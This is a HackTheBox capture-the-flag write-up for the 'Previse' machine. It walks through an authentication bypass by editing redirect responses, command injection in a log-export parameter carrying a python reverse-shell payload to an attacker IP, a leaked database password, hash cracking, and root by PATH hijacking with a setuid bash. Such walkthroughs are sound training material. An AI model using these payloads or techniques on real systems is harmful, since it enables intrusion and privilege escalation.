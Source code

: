 # Previse HackTheBox
![Pasted image 20210808114616](https://user-images.githubusercontent.com/5285547/128632748-0d83d51b-80c5-4183-8528-6d22eca06a25.png)


 Link: https://www.hackthebox.eu/home/machines/profile/373
 
 ## Enum
 
 Nmap 
 
 ```sh
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
 ```
 
 Ffuf
 
 ```
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
.                       [Status: 302, Size: 2801, Words: 737, Lines: 72]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
 ```
 
Curl

```
curl http://10.129.156.76/files.php
```
 
![Pasted image 20210808115843](https://user-images.githubusercontent.com/5285547/128632797-ed5818f5-951e-43e3-bb43-58e0a6b8ca89.png)

 
So it seems we can access parts of the site with a fwe tricks. Testing further showed I can capture the request from nav.php and then change the response from a 302 to 200 to access the account page. 

Clicking on Do Intercept > Response to this request. 

![Pasted image 20210808120901](https://user-images.githubusercontent.com/5285547/128632802-e071cb54-d5b7-4841-bf0b-eaee33fff54f.png)

Change the 302 to 200

![Pasted image 20210808120931](https://user-images.githubusercontent.com/5285547/128632807-4ef85fe3-ab62-41dd-82f8-3f6d97b12a4d.png)

Create a new user and use the same tatics for capturing the request and editing the response. 

![Pasted image 20210808121122](https://user-images.githubusercontent.com/5285547/128632809-9c070d26-6f1f-4b30-8439-e95d17449f9c.png)

Then login with the new account. 

![Pasted image 20210808121244](https://user-images.githubusercontent.com/5285547/128632811-6dfb5364-f548-4c8a-b0cb-852664cd5fdd.png)

Files. 

config.php

```
$host = 'localhost';
$user = 'root';
$passwd = '<REDACTED>';
$db = 'previse';
```

logs.phg

![Pasted image 20210808122858](https://user-images.githubusercontent.com/5285547/128632824-737e312c-6a55-4b6c-bb12-5157c38f3119.png)

In logs.php we can ssee the developer had to use python instead of PHP for the delimiters for ease of use and this also looks vunerable to command injection. 

## User

Reverse shell.

To get a reverse shell. Login as your new user, goto the Management menu > logs. 

Capture the request in burp and add a python reverse shell to the delim attribute. 

```
delim=comma;python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.14.250",9999))%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```

![Pasted image 20210808122549](https://user-images.githubusercontent.com/5285547/128632831-3944e2f8-bce1-42e7-9d06-24828f3194cc.png)

Have your netcat listner ready! 

```sh
rlwrap -cAr nc -lnvp 9999
```

### mysql

Let's get any info and hash's from the database. 

```sql
mysql -u root -p
pass:mySQL_p@ssw0rd!:)

show databases;
use previse;
show tables;

select * from accounts;
```

![Pasted image 20210808132042](https://user-images.githubusercontent.com/5285547/128632834-98e360e5-bda9-49a9-8580-ab847e84ece8.png)

Cracking the hash

hashcat

```bash
hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -O
```

john

```bash
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```sh
m4lwhere:<REDACTED>
```

Time to SSH into the box for a better shell. 

```sh
ssh m4lwhere@IP
```

## Root

![Pasted image 20210808134325](https://user-images.githubusercontent.com/5285547/128632874-a05a0c64-f288-4bb6-81cc-8646d3edfbcb.png)

Let's try some path abuse for gzip.

```sh
cd /tmp
cat << EOF > gzip
> #!/bin/bash
> cp /bin/bash /tmp/c             
> chmod u+s /tmp/c
> EOF
chmod +x gzip
export PATH=/tmp:PATH
```

```sh
sudo /opt/scripts/access_backup.sh
/tmp./c -p
```

![Pasted image 20210808135613](https://user-images.githubusercontent.com/5285547/128632869-a510ef67-f3c9-45cd-a21e-add95c04b502.png)
